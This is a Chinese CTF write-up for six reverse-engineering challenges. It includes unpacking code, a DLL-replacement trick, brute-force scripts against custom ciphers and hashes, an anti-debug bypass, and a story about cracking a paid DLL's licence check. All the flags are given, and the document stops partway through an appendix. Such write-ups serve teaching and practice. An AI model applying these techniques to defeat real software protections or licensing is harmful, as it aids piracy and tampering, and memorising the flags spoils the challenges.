
(veni!! vidi!! vici!! boy you win:))
0x05 Reverse
Reverse 100 这是一道签到题
题目：听说隔壁有好几个跟我名字一样的？我才是真的签到题。。（是最近流行这个还是咋滴？听说某心云也是各种重名）
题目给出了一个apk，考查基础的Android逆向。
apk本质上是一个zip压缩包：
[guest@cruise ~]$ file AndroidReverse.apk
AndroidReverse.apk: Zip archive data, at least v2.0 to extract
Android的开发语言可以是C/C++或者Java。
使用C/C++的话，一般通过NDK将其编译成类似libxxx.so的动态链接库，放在lib目录下。
使用Java的话，会被编译成类似classes.dex的dex文件。
观察解压后的文件夹发现没有lib目录，100分的题目比较简单，只需要反编译classes.dex即可。
通过dex2jar将classes.dex转换为jar包，使用jd-gui打开即可查看源码。（也可以用apktools解包apk，查看smali或者smali2java查看Java代码）
//MainActivity.class
...
public class MainActivity
extends AppCompatActivity
{
boolean CheckFlag(byte[] paramArrayOfByte)
{
return (paramArrayOfByte.length == 19) &&
(paramArrayOfByte[0] == 116) &&
(paramArrayOfByte[1] == 106) &&
(paramArrayOfByte[2] == 123) &&
(paramArrayOfByte[3] == 113) &&
(paramArrayOfByte[4] == 115) &&
(paramArrayOfByte[5] == 121) &&
(paramArrayOfByte[6] == 100) &&
(paramArrayOfByte[7] == 116) &&
(paramArrayOfByte[8] == 121) &&
(paramArrayOfByte[9] == 121) &&
(paramArrayOfByte[10] == 95) &&
(paramArrayOfByte[11] == 109) &&
(paramArrayOfByte[12] == 121) &&
(paramArrayOfByte[13] == 104) &&
(paramArrayOfByte[14] == 99) &&
(paramArrayOfByte[15] == 115) &&
(paramArrayOfByte[16] == 108) &&
(paramArrayOfByte[17] == 120) &&
(paramArrayOfByte[18] == 125);
}
...
}
查询ASCII码表之后即可得到tj{qsydtyy_myhcslx}（青山一道同云雨，明月和曾是两乡，本来想作为LSB的flag的，后来因为某些原因。。。）
Reverse 200 .NETTEN.
题目：When will my reflection show Who I am inside...
看题目的名字是.NET逆向，如果没有看出来也没有关系，可以通过PE查壳工具查看。

或者在程序运行时，查看它加载的dll也能发现这是.NET程序。

.NET的逆向分析工具比较多样，以ILSpy为例，先反编译查看源码：

可以看到程序有一个名字为ReflectionShell.ReflectionCore.exe的嵌入式资源，程序运行后先加载这个资源，并将资源的每一个byte和99异或。最后使用反射的方法，运行该嵌入式资源（命令行参数原样传入）。

选中该资源，点击save按钮，将资源剥离出来。
写一个小程序脱壳：
#include <stdio.h>
#include <stdlib.h>
int main()
{
FILE *fp;
int file_len;
char *data;
int i;
fp = fopen("ReflectionShell.ReflectionCore.exe", "rb");
fseek(fp, 0, SEEK_END);
file_len = ftell(fp);
fseek(fp, 0, SEEK_SET);
data = (char*)malloc(sizeof(char) * file_len);
fread(data, file_len, 1, fp);
fclose(fp);
for (i = 0; i < file_len; i++)
data[i] ^= 99;
fp = fopen("ReflectionShell.ReflectionCore-1.exe", "wb");
fwrite(data, file_len, 1, fp);
fclose(fp);
return 0;
}
反编译ReflectionShell.ReflectionCore-1.exe：

可以看到flag的判断逻辑：
flag.Length == 33 &&
!(flag.Substring(0, 3) != "tj{") &&
!(Program.Md5(flag.Substring(3, 3)) != "7D115AE79B229A96B6656375F493C2DF") &&
!(Program.Base64(flag.Substring(6, 16)) != "X1Vqb3VfUjNAY2xjbHk/Lg==") &&
!(Program.Sha1(flag.Substring(22, 3)) != "029BC2B0067000E122D2286DCF774961625FAC14") &&
!(flag.Substring(25, 8) != "_iS_Ez!}")
Md5明文为4re(http://www.cmd5.com/)可以查到；
base64解码为_Ujou_R3@clcly?.；
sha1为NET；
拼凑后得出flag为tj{4re_Ujou_R3@clcly?.NET_iS_Ez!}（Are_you_readdy?.NET_is_easy）。
Reverse 300 Hijack
题目：Remind大一的时候写了一个二维码生成程序，写的时候只有他和老天知道他在写什么；现在过了两年，只有老天知道他当时写的是什么了。
给出了一个exe和dll，exe里几乎每个函数都被加了花指令，而且通过二维码算法在命令行中生成了二维码，静态分析很困难，题目给出了不要过多在意exe的暗示，题目名字是Hijack，暗示是dll hijack，即dll劫持。
主要看dll，可以看到两个导出函数：

这两个函数什么都没做，空函数。直接运行程序出来一个二维码：

扫描结果是“the calling order of the DLL export function”，提示是dll导出函数的调用顺序。
那么很简单，只要替换掉这个dll，保持导出函数名和参数不变，自己在里面加入简单的输出逻辑，记录调用顺序即可，这个需要用VS写一个dll。
这里就简单地用printf了：

替换运行可以得到这样一串输出：
011101000110101001111011001101110011000001110101010111110011000101101001010000000110111000111001010111110110100001010101011000010100111001011111011110100111110000101101011111000111010101111101
做一个简单的转换：
#include <stdio.h>
#include <stdlib.h>
int main()
{
char str[] = "011101000110101001111011001101110011000001110101010111110011000101101001010000000110111000111001010111110110100001010101011000010100111001011111011110100111110000101101011111000111010101111101";
int i, j;
for (i = 0; str[i] != '\0'; i+=8) {
char ch = 0;
for (j = 0; j < 8; j++) {
ch *= 2;
ch += (str[i + j] - '0');
}
printf("%c", ch);
}
return 0;
}
二进制8位转1位ASCII得到tj{70u_1i@n9_hUaN_z|-|u}（偷梁换柱）。
Reverse 400 Quanter
题目：Remind想要进行程序化交易，但由于证监会视其为洪水猛兽，下令对其进行了封杀，因此各券商逐步关闭了交易接口。贼心不死的Remind在网上找到了通达信的dll及其导出函数的使用说明。可惜的是，这个dll是收费的，每个dll绑定一个交易账户，初步分析后发现，dll作者首先会将用户的交易账户通过某种算法加密后内置在dll中，当使用dll的导出函数进行登陆时，会对交易账户做校验，如果不符合则无法交易。Remind想要让大家都可以享受量化交易的乐趣，而不需要支付高额的费用，于是他想请你帮他研究一下这个加密算法。如果能从密文反推出明文（交易账户），那么离彻底破解也就不远了，你能帮帮他吗？（上文为背景，本次比赛试题已将dll、交易函数等无关内容剥离，只需关注如何破解加密算法即可）
扔到IDA里逆向看一下main函数，首先输入一个最长不超过63字节的字符串，然后对其做加密，最后将结果和密文比较一下：

看一下具体的加密算法，也就是sub_401080：
char __fastcall sub_401080(char *a1, int a2)
{
unsigned int v2; // ebx@1
char *v3; // edx@1
int v4; // esi@1
char result; // al@2
signed int v6; // edx@4
unsigned int v7; // ebx@4
signed int v8; // eax@4
signed int v9; // ecx@6
signed int v10; // ebx@6
char *v11; // ecx@14
bool v12; // cf@16
unsigned int v13; // [sp+Ch] [bp-1Ch]@4
int v14; // [sp+10h] [bp-18h]@1
char *v15; // [sp+14h] [bp-14h]@1
int v16; // [sp+18h] [bp-10h]@1
signed __int16 v17; // [sp+1Ch] [bp-Ch]@1
signed int v18; // [sp+20h] [bp-8h]@4
signed int v19; // [sp+24h] [bp-4h]@4
v14 = a2;
v2 = 0;
v3 = a1;
v15 = a1;
v16 = 0;
v17 = 1374;
v4 = 0;
do
result = *v3++;
while ( result );
if ( v3 != a1 + 1 )
{
do
{
v6 = 1;
v7 = ((unsigned int)(unsigned __int16)v17 >> 8) ^ a1[v2];
v19 = 1;
v13 = v7;
v17 = 8319 * (v7 + v17) - 21053;
v8 = 65;
v18 = 65;
do
{
if ( !v6 )
break;
v9 = 90;
v10 = v7 + 1665;
do
{
if ( !v6 )
break;
v8 = v18;
if ( v10 % 26 || v10 / 26 != v18 )
{
v6 = v19;
}
else
{
*(_BYTE *)(v4 + v14) = v18;
*(_BYTE *)(v4 + v14 + 1) = v9;
v4 += 2;
v6 = 0;
v19 = 0;
}
--v9;
++v10;
}
while ( v9 >= 65 );
v7 = v13;
v18 = ++v8;
}
while ( v8 < 91 );
v11 = v15;
v2 = v16++ + 1;
do
result = *v11++;
while ( result );
v12 = v2 < v11 - (v15 + 1);
a1 = v15;
}
while ( v12 );
}
return result;
}
反推有点困难，但是基本可以知道，1个char会加密成两个可见的类似16进制的char，于是可以穷举遍历。
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#define _BYTE char
char __fastcall sub_401080(char *a1, char *a2)
{
...
}
int main()
{
const char str_std[] = "EJAFDTHQDVCWJDDSJNDHCJEZCGJSJKGREIFAHVDKIICBHLJFJQEUFMFWCQIUFLHGCFGWJABIFMGEEM";
char str_gen[128];
char flag[64];
int i, j;
memset(flag, 0, 64);
for (j = 0; j < strlen(str_std) / 2; j++) {
for (i = 0; i < 255; i++) {
flag[j] = i;
memset(str_gen, 0, 128);
sub_401080(flag, str_gen);
if (str_gen[j * 2] == str_std[j * 2] && str_gen[j * 2 + 1] == str_std[j * 2 + 1]) {
printf("%s\n", flag);
break;
}
}
}
//
return 0;

tj{N07_oN!y_A_coDeR_8ut_aLSo_4_qu@n73r}（Not_only_a_coder_but_also_a_quanter）
Reverse 500 I wrote Python
题目：题面还真的不好编呢，参见题目吧。
这道题给出了一个编译后的Python字节码文件flag.pyc，以及一套Python环境。
如果尝试用自己的Python是没有办法运行这个pyc的。
运行题目给出的Python，尝试用Python自带的反汇编模块dis，发现opcode模块不存在：
C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp>python
Python 3.6.2 (default, Oct 6 2017, 17:47:41) [MSC v.1900 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import dis
Traceback (most recent call last):
File "<stdin>", line 1, in <module>
File "C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp\lib\dis.py", line 8, in <module>
from opcode import *
ModuleNotFoundError: No module named 'opcode'
>>>
从python3.6.2源码中拷贝一份opcode.py到Lib目录下后再反汇编。
通过序列化反序列化模块marshal可以加载pyc，pyc的其他结构没有什么问题，但是opcode不正确，初步怀疑是置换了opcode。
C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp>python
Python 3.6.2 (default, Oct 6 2017, 17:47:41) [MSC v.1900 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import dis
>>> import marshal
>>>
>>> fd = open('flag.pyc', 'rb')
>>> header_bytes = fd.read(12)
>>> co = marshal.load(fd)
>>> dis.dis(co)
22 0 LOAD_CONST 0 ('please input the flag:')
2 CALL_FUNCTION 0
4 LOAD_NAME 1 (flag)
6 STORE_NAME 1 (flag)
24 8 LOAD_CONST 2 ('Failure')
10 LOAD_CONST 1 (28)
12 LOAD_NAME 1 (flag)
14 CALL_FUNCTION 1
16 EXTENDED_ARG 3
Traceback (most recent call last):
File "<stdin>", line 1, in <module>
File "C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp\lib\dis.py", line 60, in dis
disassemble(x, file=file)
File "C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp\lib\dis.py", line 335, in disassemble
co.co_consts, cell_names, linestarts, file=file)
File "C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp\lib\dis.py", line 346, in _disassemble_bytes
line_offset=line_offset):
File "C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\tmp\lib\dis.py", line 315, in _get_instructions_bytes
argval = cmp_op[arg]
IndexError: tuple index out of range
>>>
接下来要得到正确的opcode置换表，如果逆向Python虚拟机那代价太大，可以自己编写一份用到了所有python3.6.2中opcode的Python代码，然后用原版的python和修改版的python分别编译一遍，两相对比即可得到opcode置换表。
这里写了一份all.py，参见附录1。
写个小程序对比opcode，原理很简单，逐字符比较就行了，这里就不放代码了。
C:\Users\xbj1108_25\Desktop\Data\同济大学\CTF\Tongji_CTF_2017\Reverse\Python\RemapOpcode\Debug>RemapOpcode.exe
已复制 1 个文件。
已复制 1 个文件。
Opmap building: general_opcode = 100, replace_opcode = 131
Opmap building: general_opcode = 1, replace_opcode = 62
Opmap building: general_opcode = 131, replace_opcode = 101
Opmap building: general_opcode = 101, replace_opcode = 100
Opmap building: general_opcode = 25, replace_opcode = 23
Opmap building: general_opcode = 19, replace_opcode = 63
Opmap building: general_opcode = 20, replace_opcode = 25
Opmap building: general_opcode = 23, replace_opcode = 24
Opmap building: general_opcode = 24, replace_opcode = 26
Opmap building: general_opcode = 26, replace_opcode = 20
Opmap building: general_opcode = 62, replace_opcode = 1
Opmap building: general_opcode = 63, replace_opcode = 19
Opmap building: general_opcode = 144, replace_opcode = 114
Opmap building: general_opcode = 110, replace_opcode = 106
Opmap building: general_opcode = 107, replace_opcode = 144
Opmap building: general_opcode = 114, replace_opcode = 107
Opmap building: general_opcode = 106, replace_opcode = 110
拿到opcode置换表之后，有几种思路可以得到flag：
- 修改对应的Lib/opcode.py，直接用dis反汇编模块查看
- 二进制修改flag.py，通过python源码可以了解到pyc的结构，由于只存在一个代码段，而且指令长度相同，因此修改也很方便
- 修改python3的反编译引擎
python3的反编译引擎有不少，这里以uncompyle6为例，uncompyle6中依赖xdis模块获取python各个版本的opcode，因此需要修改xdis模块，主要修改xdis\opcodes\opcode_3x.py。
反编译后即可获得源码：
flag = input("please input the flag:")
if len(flag) != 28:
print("Failure")
exit()
if flag[ 0] != 't':
print("Failure")
exit()
if flag[ 1] != 'j':
print("Failure")
exit()
if flag[ 2] != '{':
print("Failure")
exit()
if flag[ 3] != chr(ord('!') + 15):
print("Failure")
exit()
if flag[ 4] != chr(ord('u') - 5):
print("Failure")
exit()
if flag[ 5] != 'C':
print("Failure")
exit()
if flag[ 6] != chr(110 + ord('\x01')):
print("Failure")
exit()
if flag[ 7] != chr(ord('"') * 2):
print("Failure")
exit()
if flag[ 8] != chr(404 >> ord('\x02')):
print("Failure")
exit()
if flag[ 9] != chr(ord(' ') + 63):
print("Failure")
exit()
if flag[10] != chr(ord('H') + 32):
print("Failure")
exit()
if flag[11] != chr(ord('\x08') ** 2):
print("Failure")
exit()
if flag[12] != chr(ord('s'.upper())):
print("Failure")
exit()
if flag[13] != chr(ord('\x13') * 5):
print("Failure")
exit()
if flag[14] != str(8):
print("Failure")
exit()
if flag[15] != chr(ord('d') + 1):
print("Failure")
exit()
if flag[16] != chr(ord('f') - 1):
print("Failure")
exit()
if flag[17] != chr(ord('\'') * 2):
print("Failure")
exit()
if flag[18] != chr(95):
print("Failure")
exit()
if flag[19] != 'R'.lower():
print("Failure")
exit()
if flag[20] != 'E'.upper():
print("Failure")
exit()
if flag[21] != chr(ord('\x14') << 2):
print("Failure")
exit()
if flag[22] != str(int('1')):
print("Failure")
exit()
if flag[23] != 'a':
print("Failure")
exit()
if flag[24] != 'c':
print("Failure")
exit()
if flag[25] != 'e':
print("Failure")
exit()
if flag[26] != 'D':
print("Failure")
exit()
if flag[27] != '}':
print("Failure")
exit()
print('Success')
显而易见tj{0pCoDe_h@S_8eeN_rEP1aceD}（opcode_has_been_replaced）
Reverse 500 VMP
题目：杀毒软件有可能会误报，本次比赛所有的可执行文件均无恶意代码，请放心使用
用IDA查看，首先在main函数中，调用了IsDebuggerPresent函数，判断自身是否被动态调试，如果是的话则结束进程。可以通过二进制修改x86汇编中的跳转指令来绕过这个检测。

接着是一个很关键的sub_401080函数，查看汇编指令可以发现这是一个很简单的虚拟机，根据操作码执行不同的操作。0x01则PUSH，0x02则CALL，指令为如下结构体：
typedef char vm_opcode; //操作码
typedef int vm_operand; //操作数
typedef struct vm_instruction //指令
{
vm_opcode opcode;
vm_operand operand1;
vm_operand operand2;
vm_operand operand3;
} vm_instruction_t;
通过自己push和call来完成函数调用，首先取两个函数地址，分别用两个字符串tj{maybe_the_ti及me_isn't_right}对其进行异或操作。其中一个是hash函数，另外一个函数将51位的flag三位一组进行该hash运算，并对比结果。由于hash不可逆，因此只能爆破，好在只有三位，而且出题目的时候测试过，没有hash碰撞的情况。
写个程序暴力枚举：
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
unsigned int stringtoid(const char *str)
{
int i;
unsigned int v;
unsigned m[70];
strncpy((char *)m, str, 256);
for (i = 0; i < 256 / 4 && m[i]; i++)
;
m[i++] = 0x9BE74448;
m[i++] = 0x66F42C48;
v = 0xF4FA8928;
__asm {
mov esi, 0x37A8470E
mov edi, 0x7758B42B
xor ecx, ecx
_loop :
mov ebx, 0x267B0B11
rol v, 1
lea eax, m
xor ebx, v
mov eax, [eax + ecx * 4]
mov edx, ebx
xor esi, eax
xor edi, eax
add edx, edi
or edx, 0x2040801
and edx, 0xBFEF7FDF
mov eax, esi
mul edx
adc eax, edx
mov edx, ebx
adc eax, 0
add edx, esi
or edx, 0x804021
and edx, 0x7DFEFBFF
mov esi, eax
mov eax, edi
mul edx
add edx, edx
adc eax, edx
jnc _skip
add eax, 2
_skip:
inc ecx;
mov edi, eax
cmp ecx, i
jnz _loop
xor esi, edi
mov v, esi
}
return v;
}
int add_with_carry(int *subscript, char *entry, int i, const char *set, int set_size, int entry_size)
{
if (i >= entry_size)
return -1;
if (subscript[i] + 1 < set_size) {
subscript[i]++;
entry[i] = set[subscript[i]];
return 0;
}
else {
subscript[i] = 0;
entry[i] = set[subscript[i]];
return add_with_carry(subscript, entry, i + 1, set, set_size, entry_size);
}
}
void hash_blasting(const char *set, int set_size, int entry_size, int *target_dict, int target_dict_size)
{
int *subscript;
char *entry;
char flag[100] = { 0 };
subscript = (int *)malloc(sizeof(int) * entry_size);
entry = (char*)malloc(sizeof(char) * entry_size + 1);
int i;
for (i = 0; i < entry_size; i++) {
subscript[i] = 0;
entry[i] = set[subscript[i]];
}
entry[i] = '\0';
while (1)
{
int id = stringtoid(entry);
for (i = 0; i < target_dict_size; i++) {
if (id == target_dict[i]) {
printf("%02d - %08X - [%s]\n", i, id, entry);
memcpy(flag + 3 * i, entry, 3);
}
}
if (add_with_carry(subscript, entry, 0, set, set_size, entry_size) == -1)
break;
}
printf("flag = %s\n", flag);
free(entry);
free(subscript);
}
int main(int argc, char **argv)
{
char graph_chars[] = " !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";
int target_dict[] = {
0x400A7A71, 0xBE0A9967, 0xED26C8B1, 0x9BFB132F, 0x4B0C5A46, 0x4F14EAAE, 0xE6FEDCB8, 0xE3E3A0DB,
0x5A653E54, 0x7A757C7B, 0xFD89E867, 0xD9B384DD, 0xE5EAEC06, 0x9203B544, 0x43FF82A7, 0x159226D6,
0x2742FD2E };
hash_blasting(graph_chars, strlen(graph_chars), 3, target_dict, sizeof(target_dict));
system("pause");
return 0;
}
得到flag：
07 - E3E3A0DB - [_w0]
01 - BE0A9967 - [th1]
15 - 159226D6 - [3t7]
09 - 7A757C7B - [_8E]
08 - 5A653E54 - [rsE]
05 - 4F14EAAE - [ys_]
04 - 4B0C5A46 - [VVa]
14 - 43FF82A7 - [t_b]
13 - 9203B544 - [_ge]
03 - 9BFB132F - [_@l]
10 - FD89E867 - [for]
02 - ED26C8B1 - [N9s]
06 - E6FEDCB8 - [G3t]
11 - D9B384DD - [e_t]
12 - E5EAEC06 - [Hey]
00 - 400A7A71 - [tj{]
16 - 2742FD2E - [eR}]
flag = tj{th1N9s_@lVVays_G3t_w0rsE_8Efore_tHey_get_b3t7eR}
请按任意键继续. . .
tj{th1N9s_@lVVays_G3t_w0rsE_8Efore_tHey_get_b3t7eR}（things_always_get_worse_before_they_get_better）
附录1：all.py
from __future__ import division
from __future__ import with_statement
import sys
global g_a
#define POP_TOP 1
(lambda:1)()
#define ROT_TWO 2
a = 1
b = 2
(a, b) = (b, a)
#define ROT_THREE 3
a = 1
(a, a, a) = (a, a, a)
#define DUP_TOP 4
a = 1
c = b = a
#define DUP_TOP_TWO 5
a = [1, 2]
a[0] += 3;
#define NOP 9
#define UNARY_POSITIVE 10
a = 1
a = +a
#define UNARY_NEGATIVE 11
a = 1
a = -a
#define UNARY_NOT 12
a = 1
a = not a
#define UNARY_INVERT 15
a = 1
a = ~a
#define BINARY_MATRIX_MULTIPLY 16
class MyMatrix:
def __matmul__(self, other):
pass
a = MyMatrix()
a = a @ a
#define INPLACE_MATRIX_MULTIPLY 17
a = MyMatrix()
a @= a
#define BINARY_POWER 19
a = 2
a = a ** 2
#define BINARY_MULTIPLY 20
a = 2
a = a * 2
#define BINARY_MODULO 22
a = 2
a = a % 2
#define BINARY_ADD 23
a = 2
a = a + 2
#define BINARY_SUBTRACT 24
a = 2
a = a - 2
#define BINARY_SUBSCR 25
a = [1]
a[0]
#define BINARY_FLOOR_DIVIDE 26
a = 2
a = a // 2
#define BINARY_TRUE_DIVIDE 27
# from __future__ import division
a = 2
a = a / 2
#define INPLACE_FLOOR_DIVIDE 28
a = 1
a //= 1
#define INPLACE_TRUE_DIVIDE 29
# from __future__ import division
a = 1
a /= 2
#define GET_AITER 50
#define GET_ANEXT 51
async def FUNC_GET_AITER(b, c):
async for b in c:
pass
#define BEFORE_ASYNC_WITH 52
async def FUNC_BEFORE_ASYNC_WITH(b):
async with b:
pass
#define INPLACE_ADD 55
a = 1
a += 1
#define INPLACE_SUBTRACT 56
a = 1
a -= 1
#define INPLACE_MULTIPLY 57
a = 1
a *= 1
#define INPLACE_MODULO 59
a = 1
a %= 1
#define STORE_SUBSCR 60
a = [1]
a[0] = 1
#define DELETE_SUBSCR 61
a = [1]
del a[0]
#define BINARY_LSHIFT 62
a = 1
a = a << 1
#define BINARY_RSHIFT 63
a = 1
a = a >> 1
#define BINARY_AND 64
a = 1
a = a & 1
#define BINARY_XOR 65
a = 1
a = a ^ 1
#define BINARY_OR 66
a = 1
a = a | 1
#define INPLACE_POWER 67
a = 1
a **= 1
#define GET_ITER 68
for a in (1,2):
pass
#define GET_YIELD_FROM_ITER 69
def FUNC_GET_YIELD_FROM_ITER(b):
yield from b
#define PRINT_EXPR 70
# IGNORE: used only in interactive mode
#define LOAD_BUILD_CLASS 71
class a:
pass
#define YIELD_FROM 72
def FUNC_YIELD_FROM(b):
yield from b
#define GET_AWAITABLE 73
async def FUNC_GET_AWAITABLE(b):
await b()
#define INPLACE_LSHIFT 75
a = 1
a <<= 1
#define INPLACE_RSHIFT 76
a = 1
a >>= 1
#define INPLACE_AND 77
a = 1
a &= 1
#define INPLACE_XOR 78
a = 1
a ^= 1
#define INPLACE_OR 79
a = 1
a |= 1
#define BREAK_LOOP 80
for a in (1,2):
break
#define WITH_CLEANUP_START 81
#define WITH_CLEANUP_FINISH 82
# from __future__ import with_statement
with open("all.py") as f:
pass
#define RETURN_VALUE 83
# IGNORE: last opcode
#define IMPORT_STAR 84
from sys import *
#define SETUP_ANNOTATIONS 85
# captain: str
#define YIELD_VALUE 86
def FUNC_YIELD_VALUE():
a = 1
yield 1
a = 2
#define POP_BLOCK 87
for a in (1,2):
break
#define END_FINALLY 88
#define POP_EXCEPT 89
try:
a = 1
except ValueError:
a = 2
finally:
a = 3
#define HAVE_ARGUMENT 90
# IGNORE: This is not really an opcode
#define STORE_NAME 90
a = 1
#define DELETE_NAME 91
a = 1
del a
#define UNPACK_SEQUENCE 92
(a, b) = "ab"
#define FOR_ITER 93
for i in (1,2):
pass
#define UNPACK_EX 94
t = (1, 2)
(a, *b) = t
#define STORE_ATTR 95
#define DELETE_ATTR 96
class A:
tmp = 0
a = A()
a.tmp = 0
del a.tmp
#define STORE_GLOBAL 97
#define DELETE_GLOBAL 98
# global g_a
g_a = 1
del g_a
#define LOAD_CONST 100
a = 1
#define LOAD_NAME 101
a = 1
a = a
#define BUILD_TUPLE 102
a = 1;
a = (a, a)
#define BUILD_LIST 103
a = [1,2,3]
#define BUILD_SET 104
{'a', 'b'}
#define BUILD_MAP 105
a = 'a'
b = 'b'
{a: 'a', b: 'b'}
#define LOAD_ATTR 106
[].sort()
#define COMPARE_OP 107
a = 1 == 2
#define IMPORT_NAME 108
# import sys
#define IMPORT_FROM 109
# from __future__ import division
# from __future__ import with_statement
#define JUMP_FORWARD 110
if 1 == 2:
pass
else:
pass
#define JUMP_IF_FALSE_OR_POP 111
def FUNC_JUMP_IF_FALSE_OR_POP():
return 1 and True
#define JUMP_IF_TRUE_OR_POP 112
def FUNC_JUMP_IF_TRUE_OR_POP():
return 0 or False
#define JUMP_ABSOLUTE 113
for i in (1,2):
pass
#define POP_JUMP_IF_FALSE 114
if 1 == 2:
pass
#define POP_JUMP_IF_TRUE 115
if not(1 == 2):
pass
#define LOAD_GLOBAL 116
# global g_a
g_a = 1
g_a = g_a
#define CONTINUE_LOOP 119
for x in (1,2):
try:
continue
except:
pass
#define SETUP_LOOP 120
while 0 > 1:
pass
#define SETUP_EXCEPT 121
#define SETUP_FINALLY 122
try:
a = 1
except ValueError:
a = 2
finally:
a = 3
#define LOAD_FAST 124
